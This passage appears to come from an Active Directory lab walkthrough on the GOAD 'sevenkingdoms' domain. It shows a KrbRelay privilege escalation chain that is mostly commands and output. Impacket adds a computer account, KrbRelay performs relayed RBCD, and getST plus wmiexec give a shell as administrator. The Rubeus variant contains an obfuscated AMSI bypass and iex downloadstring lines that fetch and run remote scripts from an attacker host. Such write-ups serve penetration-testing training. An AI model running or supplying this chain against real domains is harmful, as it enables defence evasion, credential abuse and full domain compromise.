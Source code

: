 
- Add computer :
```
impacket-addcomputer -computer-name 'krbrelay$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```    

    
- Get the SID of that computer (RDP):
```
PS C:\Users\jon.snow\Desktop> $o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID

PS C:\Users\jon.snow\Desktop> (New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value

S-1-5-21-3469228063-1577654746-3345322900-1127
```
    
    
- Check ports

```
PS C:\Users\jon.snow\Desktop> .\CheckPort.exe<br>[*] Looking for available ports..<br>[*] SYSTEM Is allowed through port 443
```

- Launch krbrelay

```
PS C:\Users\jon.snow\Desktop> .\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-3469228063-1577654746-3345322900-1127 -port 443
```

- Now we finish with RBCD exploitation
    
- with Impacket :
    
```
getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPassword'<br>export KRB5CCNAME=/workspace/krbrelay\$.ccache<br>getST.py -impersonate 'administrator' -spn 'CIFS/castelblack.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$'<br>export KRB5CCNAME=/workspace/administrator@CIFS_castelblack.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache<br>wmiexec.py -k @castelblack.north.sevenkingdoms.local<br><br>C:\>whoami<br>north\administrator
```


- Or with Rubeus
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)<br>iex(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')<br>iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')<br>PowerSharpPack -rubeus -Command "hash /password:ComputerPassword"<br>PowerSharpPack -rubeus -Command "s4u /user:krbrelay$ /rc4:0EDDEDC35EB7B7ECDE0C9F0564E54C83 /impersonateuser:administrator /msdsspn:host/castelblack /ptt"
```

